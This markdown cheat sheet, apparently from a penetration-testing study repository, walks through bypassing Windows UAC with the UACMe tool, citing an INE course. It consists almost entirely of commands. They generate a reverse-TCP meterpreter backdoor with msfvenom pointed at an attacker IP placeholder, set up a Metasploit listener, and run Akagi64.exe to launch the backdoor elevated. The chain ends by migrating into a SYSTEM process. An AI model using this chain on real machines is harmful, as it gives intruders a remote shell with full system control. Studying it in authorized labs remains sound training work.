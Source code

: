 # Bypassing UAC

* [GitHub](#github)
* [UACMe](#uacme)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

### GitHub
https://github.com/hfiref0x/UACME

***********************************************************************

## UACMe
Once you gain an Admin (with UAC set) meterpreter shell on target system...

Ensure that you have a x64/windows meterpreter shell, if not get one:
```
pgrep explorer
```
```
migrate [EXPLORER-PID]
```
Now you should have a x64/windows meterpreter shell:
```
sysinfo
```

Now create a malicious backdoor payload with msfvenom:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f exe > backdoor.exe
```
set up Metasploit listener:
```
msfconsole
```
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```

set LHOST and LPORT and exploit  

Now upload backdoor.exe and chosen UACMe module to target machine.

Start a shell session:
```
shell
```

On target machine non-elevated shell:
```
.\[UACME-MODULE] [KEY-ID] [PATH-TO-BACKDOOR.exe]
```
Example:
```
.\Akagi64.exe 23 c:\Temp\backdoor.exe
```
The listener tab should now have a meterpreter session.  
Now list processes:
```
ps
```
Migrate to a process that is running as NT Authority\System:
```
migrate [PID]
```
Now preform actions on objectives:

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2